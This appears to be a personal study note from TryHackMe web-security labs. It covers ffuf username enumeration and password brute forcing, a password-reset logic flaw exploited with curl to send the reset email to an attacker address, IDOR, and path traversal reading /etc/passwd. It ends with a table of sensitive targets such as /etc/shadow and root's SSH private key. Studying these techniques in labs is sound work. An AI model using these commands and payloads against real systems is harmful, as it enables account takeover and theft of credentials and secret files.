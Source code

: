 # Vulnerability

## Authentication Bypass
### Username Enumeration
```
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.217.0/customers/signup -mr "username already exists"
```  
`-w` : usernamelist, `-X` : request method, `-d` : sending data, `FUZZ` : contents from wordlist, `-H` : additonal header, `-u` : target url, `-mr` : the text on the page we are looking for to validate we've found a valid username.  
`> valid_usernames.txt` : add the usernames that you found using ffuf.  

### Brute Force
Password Crack
```
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.217.0/customers/login -fc 200
.
.
.
:: Progress: [355/400] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder
```  

### Logic Flaw
A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.  
<img src="https://github.com/nkn-ctrl/pushtest/blob/main/vul_logicflaw.png" width="500">
```
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.  
The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data.  If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

### Cookie Tampering
- Plain Text
- Hashing
    https://crackstation.net/ keep databases of billions of hashes and their original strings.
- Encoding

## IDOR
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.  
### Finding IDORs
- Encode IDs  
    The most common encoding technique on the web is base64 encoding and can usually be pretty easy to spot.  
    - https://www.base64decode.org/
    - https://www.base64encode.org/  

- Hashed IDs  
    Hashed IDs are a little bit more complicated to deal with than encoded ones, but they may follow a predictable pattern, such as being the hashed version of the integer value.  
    - https://crackstation.net/  

- Unpredictable IDs
    If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them.   

### Where are they located?
he vulnerable endpoint you're targeting may not always be something you see in the address bar.  
    - AJAX request  
    - JavaScript reference  
    - unregerenced parameter  (use during development)
    - as parameter mining

## File Inclusion
Local File Inclusion (LFI), Remote File Inclusion (RFI)  
### Path Traversal
Path traversal vulnerabilities occur when the user's input is passed to a function such as `file_get_contents` in PHP.  
> https://www.php.net/manual/en/function.file-get-contents.php  

Path traversal attacks, also known as the dot-dot-slash attack, then the attacker may send something as `http://webapp.thm/get.php?file=../../../../etc/passwd`  
<<<<<<< HEAD
{: align="center"}  
<img src="https://github.com/nkn-ctrl/pushtest/blob/main/vul_pathtraversal.png" width="500">  

|Location	|Description|
|:---------:|-----------|
|`/etc/issue`|contains a message or system identification to be printed before the login prompt.|
|`/etc/profile`|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|`/proc/version`|specifies the version of the Linux kernel|
|`/etc/passwd`|has all registered user that has access to a system|
|`/etc/shadow`|contains information about the system's users' passwords|
|`/root`/.bash_history|contains the history commands for `root` user|
|`/var/log/dmessage`|contains global system messages, including the messages that are logged during system startup|
|`/var/mail/root`|all emails for `root` user|
|`/root/.ssh/id_rsa`|Private SSH keys for a root or any known valid user on the server|
|`/var/log/apache2/access.log`|the accessed requests for `Apache`  webserver|
|`C:\boot.ini`|contains the boot options for computers with BIOS firmware|






